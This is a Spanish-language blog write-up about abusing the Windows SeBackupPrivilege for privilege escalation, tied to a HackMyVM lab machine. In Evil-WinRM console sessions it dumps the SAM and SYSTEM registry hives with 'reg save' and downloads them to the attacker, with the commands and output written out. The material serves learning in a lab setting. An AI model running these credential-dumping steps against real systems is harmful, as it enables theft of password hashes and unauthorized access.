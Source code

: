 El privilegio **SeBackupPrivilege** en Windows otorga a un usuario o proceso la capacidad de acceder a archivos y directorios, ignorando las configuraciones de seguridad aplicadas a esos objetos. Este permiso suele ser utilizado por programas de respaldo o procesos que necesitan copiar o respaldar archivos a los que normalmente el usuario no tendría acceso.

No obstante, si este privilegio no se gestiona adecuadamente o se concede a usuarios o procesos no autorizados, puede convertirse en una vulnerabilidad de escalada de privilegios. Los actores malintencionados podrían explotar esta debilidad para obtener acceso no autorizado a archivos y datos sensibles del sistema.

En la [máquina DC02](https://pointedsec.github.io/writeups/dc02---hackmyvm/) de HackMyVM explotamos este privilegio pero de una forma remota, en este caso tenemos una consola en la máquina víctima por lo cual es mucho mas fácil escalar privilegios.

Primero me voy a crear un directorio para trabajar comodamente.
```console
*Evil-WinRM* PS C:\windows\temp\work> pwd

Path
----
C:\windows\temp\work
```

Ahora simplemente podemos hacer una copia del archivo SAM que recordemos que contiene todos los usuarios y sus hashes NTLM en entornos de WORKSTATION y podemos copiar el registro `system` que es el que contiene la clave de encriptado del archivo SAM.
```console
*Evil-WinRM* PS C:\windows\temp\work> reg save hklm\sam sam.hive
La operaci¢n se complet¢ correctamente.

*Evil-WinRM* PS C:\windows\temp\work> reg save hklm\system system.hive
La operaci¢n se complet¢ correctamente.

*Evil-WinRM* PS C:\windows\temp\work> dir


    Directorio: C:\windows\temp\work


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          1/2/2025   5:27 PM          57344 sam.hive
-a----          1/2/2025   5:27 PM       11988992 system.hive
```

Ahora con la función `download` interna de `evil-winrm` vamos a descargarnos estos archivos.
```console
*Evil-WinRM* PS C:\windows\temp\work> download sam.hive

Info: Downloading C:\windows\temp\work\sam.hive to sam.hive

Info: Download successful!
*Evil-WinRM* PS C:\windows\temp\work> download system.hive

Info: Downloading C:\windows\temp\work\system.hive to system.hive

Info: Download successful!
```
